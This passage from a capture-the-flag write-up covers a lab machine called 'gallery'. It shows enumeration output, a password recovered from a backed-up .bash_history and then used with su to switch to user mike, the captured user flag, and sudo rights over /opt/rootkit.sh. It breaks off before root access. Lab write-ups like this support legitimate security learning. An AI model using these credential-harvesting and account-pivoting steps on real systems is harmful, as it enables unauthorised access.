 and 

```bash
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path                                                                                                                                                  
/usr/bin/gettext.sh 
```

`rookit.sh` cannot be executed. `gettext.sh` does not seems to do much.

We also find:

```bash
╔══════════╣ Searching passwords in history files
/usr/lib/ruby/vendor_ruby/rake/thread_history_display.rb:      @stats   = stats                                                                                                                                                             
/usr/lib/ruby/vendor_ruby/rake/thread_history_display.rb:      @items   = { _seq_: 1  }
/usr/lib/ruby/vendor_ruby/rake/thread_history_display.rb:      @threads = { _seq_: "A" }
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Maybe someone typed their password too fast ;). Let's try:

```bash
www-data@gallery:/var/backups/mike_home_backup$ su mike          
Password: 
mike@gallery:/var/backups/mike_home_backup$ whoami
mike
```

Sweet !! Let's get the flag:

```bash
mike@gallery:/var/backups/mike_home_backup$ cat /home/mike/user.txt

THM{af05cd30bfed67849befd546ef}
```

#### Task 2 : Escalate to the root user

5. What's the root flag?

Let's check what `mike` can sudo:

```bash
mike@gallery:/var/backups/mike_home_backup$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

How interesting !! Let's try to run this `rootkit.sh` now:
